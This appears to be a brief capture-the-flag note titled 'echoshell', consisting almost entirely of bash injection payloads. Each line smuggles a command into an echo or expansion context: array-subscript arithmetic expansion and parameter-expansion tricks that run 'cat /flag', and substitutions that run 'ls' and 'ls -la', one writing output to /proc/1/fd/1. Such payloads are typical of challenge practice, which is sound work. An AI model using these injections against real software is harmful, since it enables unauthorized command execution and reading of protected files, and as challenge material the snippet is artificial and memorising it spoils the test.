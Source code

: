 ### echoshell

---

```py
payload='arr[$(cat /flag > /proc/1/fd/1)]'; echo $((payload));
echo "${arr[0]=$(cat /flag)}"
a=b; echo "${a/b/$(ls)}"
echo `echo \#; ls -la`
```

